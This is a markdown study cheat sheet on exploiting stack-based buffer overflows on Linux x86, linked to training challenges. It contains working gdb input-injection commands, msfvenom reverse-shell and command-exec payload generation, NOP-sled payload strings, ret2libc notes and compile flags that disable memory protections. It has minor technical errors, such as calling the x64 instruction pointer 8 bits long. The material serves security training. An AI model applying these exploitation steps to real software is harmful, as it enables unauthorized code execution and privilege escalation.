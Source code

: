 # Buffer Overflow

[![stack_based_buffer_overflows_linux_x86](../../../../_badges/htb/stack_based_buffer_overflows_linux_x86.svg)](https://academy.hackthebox.com/course/preview/stack-based-buffer-overflows-on-linux-x86)

<div class="row row-cols-lg-2"><div>

Buffers overflows occur when a user is able to inject more data that the system can handle, resulting in an overflow.

By overriding data, the user may be able to control and modify the program behavior, such as executing malicious code.

A buffer overflow can be categorized in

* **Stack-based** Buffer Overflow 🗃️
* **Heap-based** Buffer Overflow 🌱

This attack is very specific to the targeted executable.

```shell!
$ file some_executable
```
</div><div>

Buffers overflows are less common nowadays, mostly due to the implementation of several security mechanisms.

* 🪤 **Data Execution Prevention** (DEP)/**NX bit**: mark as "read-only" memory regions where user input is stored such as the stack
* 🛣️ **Address Space Layout Randomization** (ASLR): randomize where everything is stored to make ROP attacks harder
* 🦆 **Canaries**/**Stack Guard**: add a known value to the stack between user input and control data to detect buffer overflows

📚 IoT and Embedded devices are a common target as they often use low-level vulnerable languages such as `C` or `C++`.
</div></div>

<hr class="sep-both">

## Stack-based Buffer Overflow

[![stack_based_buffer_overflows_linux_x86](../../../../_badges/htb/stack_based_buffer_overflows_linux_x86.svg)](https://academy.hackthebox.com/course/preview/stack-based-buffer-overflows-on-linux-x86)
[![elf_x86_stack_buffer_overflow_basic_1](../../../../_badges/rootme/app_system/elf_x86_stack_buffer_overflow_basic_1.svg)](https://www.root-me.org/en/Challenges/App-System/ELF-x86-Stack-buffer-overflow-basic-1)
[![elf_x86_stack_buffer_overflow_basic_2](../../../../_badges/rootme/app_system/elf_x86_stack_buffer_overflow_basic_2.svg)](https://www.root-me.org/en/Challenges/App-System/ELF-x86-Stack-buffer-overflow-basic-2)
[![getting_started](../../../../_badges/htb-c/getting_started.svg)](https://app.hackthebox.com/challenges/getting-started)
[![questionnaire](../../../../_badges/htb-c/questionnaire.svg)](https://app.hackthebox.com/challenges/Questionnaire)

<div class="row row-cols-lg-2"><div>

#### Find An Attack Vector

Identify vulnerable functions such as the following C functions:

* `strcpy`, `strcat`
* `sprintf`, `vsprintf`
* `gets`/`fgets`
* `scanf`/`fscanf`/`sscanf`/`vscanf`/`vsscanf`/`vfscanf`
* `realpath`/`index`/`getopt`/`getpass`/`strecpy`/`streadd`/`strtrns`
* ...

Each function or function call may not be exploitable.

#### Take Over The Instruction Pointer

When a program calls a function, it stores the instruction pointer (`EIP`/`RIP`) to the stack. We can exploit a buffer overflow to take it over.

All commands below inject a lot of `A` to stdin <small>(assuming stdin in the vulnerable vector)</small>. The ideal result is the program crashing with the message `0x41414141 in ?? ()` which means we took over the EIP.

We can use [GDB](/programming-languages/low-level/compilers/gnu/gdb.md) on Linux:

```text!
(gdb) run <<< $(python2 -c "print '\x41' * 1000")
(gdb) run <<< $(python2 -c "print( '\x41' * 1000 )")
(gdb) run <<< $(python3 -c "print( '\x41' * 1000 )")
(gdb) run <<< $(perl -e 'print "\x41"x1000')
(gdb) run <<< $(perl -e 'print "\x41"x1000 . "A"')
(gdb) run <<< $(printf '\x41%.0s' {1..1000})
0x41414141 in ?? ()
```

⚠️ Python3 doesn't behave as we expect for many characters.

#### Determine The Offset

We want to determine when did we override the EIP. Generate a pattern with metasploit. Run the program with the given bytes, note the EIP, and pass the EIP to metasploit to find the exact offset.

```shell!
$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1000
<some pattern>
$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0xYOUR_NEW_EIP
offset
```
Going back to gdb, we should be able to arbitrary set the EIP:

```text!
(gdb) run <<< $(python2 -c "print( '\x41' * (offset) + '\x66\x66\x66\x66' )")
EIP uses 0x66666666 in ?? ()
```

📚 Alternatively, look for the `EBP`/`RBP` register's value.
</div><div>

Quick reminder, for x64, the EIP is 8-bits long.

<br>

#### Injecting A ShellCode

We can now generate a shellcode, inject it, and make the EIP point to our code. Just in case, we usually add NOPs (`\x90`) before our payload. We also want to identify "bad characters":

```shell!
(gdb) run <<< $(python2 -c "print('\x41' * (offset - 256) + '$(for i in {0..255}; do printf "\\\x%02x" $i;done)' + '\x66\x66\x66\x66')")
(gdb) x/2000xb $esp+0
```

Look at the end of your `\x41` for missing values in your charset.

We can use msfvenom to generate a payload:

* Reverse Shell <small>(you can use `127.0.0.1` and a local listener)</small>

```shell!
$ msfvenom -p linux/x86/shell_reverse_tcp lhost=IP lport=PORT --format c --arch x86 --platform linux --bad-chars "\x00\x09\x0a\x20"
```

* Execute a command such as `cat /etc/passwd`

```shell!
$ msfvenom -p linux/x86/exec cmd="cat /etc/passwd" --format c --arch x86 --platform linux --bad-chars "\x00\x09\x0a\x20"
```

To test your payload:

```shell!
(gdb) run <<< $(python2 -c "print('\x41' * (offset - nop_size - payload_size) + '\x90' * nop_size + payload + '\x66\x66\x66\x66' )")
(gdb) x/2000xb $esp+0
```

The EIP can be a line of NOPs, or a line of NOPs with your code. ⚠️ Remember that there is a notion of endianness in addresses.

**Important Note** ⚠️: GDB is good for testing your payloads, but it executes the binary in your context, meaning you cannot elevate to another user. You need to execute the binary outside of GDB:

```shell!
$ ./my_program <<< $(python2 -c "print('\x41' * (offset - nop_size - payload_size) + '\x90' * nop_size + payload + '\x66\x66\x66\x66' )")
$ ./my_program <<< $(python2 -c "print('\x41' * (offset - nop_size - payload_size) + '\x90' * nop_size + payload + '\xFD\xFC\xFB\xFA' )")
$ (python2 -c "print('\x41' * (offset - nop_size - payload_size) + '\x90' * nop_size + payload + '\xFD\xFC\xFB\xFA' )" ; cat -) | ./my_program
```

The last command with `cat`/`cat -` keep stdin open if you need that.

#### Additional Notes

* 👻 Try `PAD+EIP+NOPs+SHELLCODE` when the space is limited? THE EIP should point to EIP address + EIP length.

* 👻 Use **ret2libc**: invoke `libc` functions (`system,exit`) using their address when you can't execute code in the stack. The payload concatenate 3 addresses `0x[system]0x[exit]0x[command]`. Use an environment variable for the command. [Guide+Explanations](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc).
</div></div>

<hr class="sep-both">

## Random Notes

<div class="row row-cols-lg-2"><div>

#### Reuse addresses in shellcode

Find `libc` function addresses.

```shell!
$ gdb -ex 'start' --args /bin/bash
$ p system
$ p exit
```

Find the current address of the `SHELL` environment variable.

```shell!
$ gdb -ex 'start' --args /bin/bash
$ # 'SHELL' might not be at the same index ('0') for you
$ # The address may change over time
$ x/s *((char **)environ+0)
0xffffe23a: "SHELL=/bin/bash"
```
</div><div>

#### Find The Address Of A Function

To find the address of function `xxx`:`

```ps
(gdb) p xxx 
$ nm ./my_binary | grep "xxx"
$ readelf -s ./my_binary | grep "xxx"
$ objdump -d ./my_binary | grep "xxx"
```

#### Use Python To Assemble Payloads

You can use the following code to convert an address (`0xAABBCCDD`) to a payload address (`\xDD\xCC\xBB\xAA`):

```py
import struct
x = struct.pack("I" , 0xAABBCCDD)
y = struct.pack("I" , 0xEEFF0011)
print(x + y) # '\xdd\xcc\xbb\xaa\x11\x00\xff\xee'
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* `CVE-2021-3156` in sudo
* Attack: make the program crash (benign)
* Return Oriented Programming (ROP)
* Read Only relocations (RelRO) - read-only headers
* Position Independent Executable (PIE) - randomizes the base address of the binary
* binary can be stripped or not (reduce size)
* `Heap => go from the 0x0 to 0xf. Start at the end of .bss in x86.`, `Stack => go from 0xf to 0x0`.
</div><div>

* [vulnserver](https://github.com/stephenbradshaw/vulnserver)

```
# disable ASLR
sudo echo 0 > /proc/sys/kernel/randomize_va_space
# compile 32-bit ELF binary (no DEP)
gcc xxx.c -o xxx -fno-stack-protector -z execstack -m32
gcc xxx.c -o xxx -fno-stack-protector -z execstack -m64
gcc xxx.c -o xxx -fno-stack-protector -no-pie -Wl,-z,relro,-z,now,-z,noexecstack
```
</div></div>